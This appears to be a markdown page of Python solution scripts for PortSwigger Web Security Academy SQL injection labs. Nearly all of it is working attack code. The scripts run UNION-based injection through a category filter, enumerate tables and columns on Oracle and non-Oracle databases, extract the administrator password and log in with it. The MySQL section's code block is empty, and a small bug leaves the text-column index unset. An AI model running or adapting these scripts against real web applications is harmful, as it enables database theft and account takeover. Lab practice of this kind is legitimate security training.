




## 1 Query the database type and version on Oracle

```python
import requests
import json
import urllib
from bs4 import BeautifulSoup

# Using the same script for Union attacks lab no 2.
# Few modifications to:
# Payload with 'Select NULL from DUAL' when testing for columns
# 
# URL of target

#modify here ---------
baseURL = "https://0a7600b303619492c04284ab00f00036.web-security-academy.net"
MAX_TRIES = 5
#modify end ----------

# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
exploitURL = baseURL + "/filter?category="

found = False;
col_index = 0  # counter for no. of columns

#--(1) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")


while(found == False):
	if col_index == MAX_TRIES:
		break
	payload = "' union select {}null from dual--".format(col_index*'null,')
	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if (res.status_code == 200):
		found = True
		break
	else:
		col_index=col_index+1


col_count = col_index+1
print(" [+] Found! Total columns detected = {}\n".format(col_count))

#--(2) detect column with text--------------------------------------------------
print("2 Detecting column with text")
found = False
colText = 0 # counter for which column is string type

for index in range(col_count):
	array = ['null'] * col_count
	array[index] = "'TEXT'"
	stringWithComma = ",".join(array) 
	payload = "' union select {} from dual--".format(stringWithComma)

	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if res.status_code == 200:	
		print(" [+] Found! column index {} is a string type".format(index))
		break
		colText = index


#--(3) select banner from oracle--------------------------------------------------
# ' union select banner, null from v$version--
print("\n3 Querying banner from v$version")
array = ['null'] * col_count
array[colText] = "banner"
stringWithComma = ",".join(array)
payload = "' union select {} from v$version--".format(stringWithComma)
print('payload: {}'.format(payload))
html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
if "Congratulations" in html_content:
	print(" [+] 'Congratulations' is found in response!")
	soup = BeautifulSoup(html_content, "html.parser")
	table = soup.find('table', class_='is-table-longdescription')
	for row in table.tbody.find_all('tr'):
		bannerText = row.find('th').text.strip()
		print(" [+] Printing database version: {}".format(bannerText))
```



## 2 Query the database type and version on MySQL and Microsoft

- use `#` to terminate statements instead of `--`
- no need to `select <col> from dual`  instead just `select <col> #`
- use `@@version` (MySQL and MSSQL) instead of `v$version` (oracle)
- Since the comment text is `#` , the we need to URL encode our payload if not the payload may not work

```python

```



## 3 Query database schema, locate password and login (non-Oracle)
Combination of union and some previous scripts. Its not optimised for clean coding but it gets the work done but achieving these steps:
1. Detect total columns with union
2. Detect which column is string value type (where we will inject)
3. Query information_schema.tables and find "user_" tablenames
4. Query information_schema.columns to find username and password column names
5. Login with credentials

```python
import requests
import json
import urllib
from bs4 import BeautifulSoup


#modify here ---------
baseURL = "https://0a84004b0386d050c0a501a200ae0091.web-security-academy.net"
cookies = {'session':'Qs0ctMDvlbtOKD3YrIQaEScYa4AxVKsh'}
MAX_TRIES = 5
#modify end ----------

# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"

found = False;
col_index = 0  # counter for no. of columns

#--(1) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")


while(found == False):
	if col_index == MAX_TRIES:
		break
	payload = "' union select {}null--".format(col_index*'null,')
	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if (res.status_code == 200):
		found = True
		break
	else:
		col_index=col_index+1


col_count = col_index+1
print(" [+] Found! Total columns detected = {}\n".format(col_count))

#--(2) detect column with text--------------------------------------------------
print("2 Detecting column with text")
found = False
colText = 0 # counter for which column is string type

for index in range(col_count):
	array = ['null'] * col_count
	array[index] = "'TEXT'"
	stringWithComma = ",".join(array) 
	payload = "' union select {}--".format(stringWithComma)

	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if res.status_code == 200:	
		print(" [+] Found! column index {} is a string type".format(index))
		break
		colText = index


#--(3) Query for tables from information_schema.tables--------------------------------------------------

print("\n3 Querying users_xxxx table name")
print("looking for users table..")
#'+union+select+table_name,null+from+information_schema.tables-- 


array = ['null'] * col_count
array[colText] = "table_name"
stringWithComma = ",".join(array)
payload = "' union select {} from information_schema.tables--".format(stringWithComma)
print('payload: {}'.format(payload))
html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)

userTablename = ""
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')
for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	if 'users_' in headers:
		userTablename = row.find('th').text.strip()
		print(" [+] userTablename: {}".format(userTablename))
		break


#--(3) Query for column names from information_schema.columns--------------------------------------------------
# ' union select column_name,null from information_schema.columns where table_name='users_wkaamd'--
print("\nLooking for column names in table '{}'..".format(userTablename))
array[colText] = "column_name"
stringWithComma = ",".join(array)
payload = "' union select {} from information_schema.columns where table_name='{}'--".format(stringWithComma,userTablename)
print('payload: {}'.format(payload))


userColumnName = ""
passColumnName = ""

html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')
for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	if 'username_' in headers:
		userColumnName = row.find('th').text.strip()
		print(" [+] Found column for username! : {}".format(userColumnName))
	if 'password_' in headers:
		passColumnName = row.find('th').text.strip()
		print(" [+] Found column for password! : {}".format(passColumnName))

#--(4) Query for adminstrator password from user table--------------------------------------------------
# ' union select password_lbbjks,null from users_wkaamd where username_nemtbx='administrator'--
print("\nLooking for administrator password in table '{}'..".format(userTablename))
array[colText] = passColumnName
stringWithComma = ",".join(array)
payload = "' union select {} from {} where {}='administrator'--".format(stringWithComma,userTablename, userColumnName)
print('payload: {}'.format(payload))

html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')

password = ""

for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	password = row.find('th').text.strip()
	print(" [+] Found administrator password! : {}".format(password))
	
#--(5) login with found credentials--------------------------------------------------
print("\nAttempt to login with credentials...")
print("finding csrf token... ")
html_content = requests.get(url = loginURL, cookies=cookies).text
soup = BeautifulSoup(html_content, "html.parser")
csrf_token = soup.find('input', {'name':'csrf'})['value']
print(" [+] csrf token found! : {}".format(csrf_token))

print("\nLoggin in... ")

# data body
# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
data = "csrf={}&username={}&password={}".format(csrf_token,"administrator",password)

res = requests.post(url = loginURL, data = data, cookies=cookies)

#if login is successful you will see 'Log out' 
if "Log out" in res.text:
	print(" [+] Successfully logged in!")
```




## 4 Query database schema, locate password and login (Oracle)

Key differences from previous script:
- Use `select <col> from dual` 
- the equivalent of "information_schema.tables" is `all_tables`
- the equivalent of "information_schema.columns" is `all_tab_columns`
- when detecting user table name use`startswith()` as there are other tables that may contain "USERS_" 

```python
import requests
import json
import urllib
from bs4 import BeautifulSoup


#modify here ---------
baseURL = "https://0aeb001c03d2b2b1c0431d39003e00b1.web-security-academy.net"
cookies = {'session':'WwADV3A5XwXmlIGAFsY21yjFO1DXSJku'}
MAX_TRIES = 5
#modify end ----------

# proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
exploitURL = baseURL + "/filter?category="
loginURL = baseURL + "/login"

found = False;
col_index = 0  # counter for no. of columns


#--(1) detect columns--------------------------------------------------
print("Detecting no of columns with union attack...")

while(found == False):
	if col_index == MAX_TRIES:
		break
	payload = "' union select {}null from dual--".format(col_index*'null,')
	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if (res.status_code == 200):
		found = True
		break
	else:
		col_index=col_index+1


col_count = col_index+1
print(" [+] Found! Total columns detected = {}\n".format(col_count))

#--(2) detect column with text--------------------------------------------------
print("2 Detecting column with text")
found = False
colText = 0 # counter for which column is string type

for index in range(col_count):
	array = ['null'] * col_count
	array[index] = "'TEXT'"
	stringWithComma = ",".join(array) 
	payload = "' union select {} from dual--".format(stringWithComma)

	res = requests.get(url = exploitURL+payload)
	# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
	if res.status_code == 200:	
		print(" [+] Found! column index {} is a string type".format(index))
		break
		colText = index


#--(3) Query for tables from all_tables--------------------------------------------------

print("\n3 Querying users_xxxx table name")
print("looking for users table..")
#'+union+select+table_name,null+from+information_schema.tables-- 


array = ['null'] * col_count
array[colText] = "table_name"
stringWithComma = ",".join(array)
payload = "' union select {} from all_tables--".format(stringWithComma)
print('payload: {}'.format(payload))
html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)

userTablename = ""
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')
for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	if 'USERS_' in headers:
		userTablename = row.find('th').text.strip()
		if (userTablename.startswith("USERS_")):
			print(" [+] userTablename: {}".format(userTablename))
			break


#--(4) Query for column names from all_tab_columns--------------------------------------------------
# ' union select column_name,null from all_tab_columns.columns where table_name='users_wkaamd'--
print("\nLooking for column names in table '{}'..".format(userTablename))
array[colText] = "column_name"
stringWithComma = ",".join(array)
payload = "' union select {} from all_tab_columns where table_name='{}'--".format(stringWithComma,userTablename)
print('payload: {}'.format(payload))


userColumnName = ""
passColumnName = ""

html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')
for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	if 'USERNAME_' in headers:
		userColumnName = row.find('th').text.strip()
		print(" [+] Found column for username! : {}".format(userColumnName))
	if 'PASSWORD_' in headers:
		passColumnName = row.find('th').text.strip()
		print(" [+] Found column for password! : {}".format(passColumnName))

#--(5) Query for adminstrator password from user table--------------------------------------------------
# ' union select password_lbbjks,null from users_wkaamd where username_nemtbx='administrator'--
print("\nLooking for administrator password in table '{}'..".format(userTablename))
array[colText] = passColumnName
stringWithComma = ",".join(array)
payload = "' union select {} from {} where {}='administrator'--".format(stringWithComma,userTablename, userColumnName)
print('payload: {}'.format(payload))

html_content = requests.get(url = exploitURL+payload).text
# res = requests.get(url = exploitURL+payload, proxies=proxies, verify=False)
soup = BeautifulSoup(html_content, "html.parser")
table = soup.find('table', class_='is-table-longdescription')

password = ""

for row in table.tbody.find_all('tr'):
	headers = str(row.find_all('th'))
	password = row.find('th').text.strip()
	print(" [+] Found administrator password! : {}".format(password))
	
#--(6) login with found credentials--------------------------------------------------
print("\nAttempt to login with credentials...")
print("finding csrf token... ")
html_content = requests.get(url = loginURL, cookies=cookies).text
soup = BeautifulSoup(html_content, "html.parser")
csrf_token = soup.find('input', {'name':'csrf'})['value']
print(" [+] csrf token found! : {}".format(csrf_token))

print("\nLoggin in... ")

# data body
# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
data = "csrf={}&username={}&password={}".format(csrf_token,"administrator",password)

res = requests.post(url = loginURL, data = data, cookies=cookies)

#if login is successful you will see 'Log out' 
if "Log out" in res.text:
	print(" [+] Successfully logged in!")


```

